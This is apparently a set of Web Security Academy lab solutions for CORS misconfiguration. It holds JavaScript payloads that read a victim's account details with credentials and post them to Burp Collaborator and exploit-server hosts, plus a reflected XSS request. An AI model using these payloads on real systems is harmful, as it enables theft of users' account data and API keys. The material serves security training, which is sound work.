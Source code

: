 Solution:

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ab300e8036ae661c0c2293f00de0080.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    fetch('https://laz2g5udqefjy0n2vjo7omsbs2ytmi.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: req.responseText});
};
</script>
```

### Lab: CORS vulnerability with trusted null origin

Solution:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a26001503c383fac154064c00b4009c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0afd009b03cb83d2c10d062e015f0070.web-security-academy.net/log?key='+this.responseText;
fetch('https://a3eljf8ml9ttdhrgarv3982prgx6lv.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: req.responseText});
};
</script>"></iframe>
```

### Breaking TLS with poorly configured CORS

Stock Check API vulnerable to XSS

```
GET /?productId=2<script>alert(12345)</script>&storeId=1 HTTP/1.1
Host: stock.0ac4005904f4b611c0980e0200bf0050.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
